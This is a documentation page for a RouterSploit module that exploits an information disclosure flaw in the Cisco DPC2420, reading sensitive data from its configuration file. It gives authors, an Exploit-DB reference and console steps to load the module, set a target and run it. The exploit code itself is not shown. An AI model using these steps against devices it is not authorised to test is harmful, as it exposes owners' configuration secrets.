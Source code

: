 # Cisco DPC2420 Info Disclosure

## Description
Module exploits Cisco DPC2420 information disclosure vulnerability which allows reading sensitive information from the configuration file.

## Authors
* Facundo M. de la Cruz (tty0) <fmdlc[at]code4life.com.ar> # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [https://www.exploit-db.com/exploits/23250/](https://www.exploit-db.com/exploits/23250/)

## Vulnerable devices
* Cisco DPC2420

## Usage
```
rsf > use exploits/cisco/dpc2420_info_disclosure
rsf (Cisco DPC2420 Info Disclosure) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       8080                 Target Port


rsf (Cisco DPC2420 Info Disclosure) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (Cisco DPC2420 Info Disclosure) > run
[*] Running module...
```
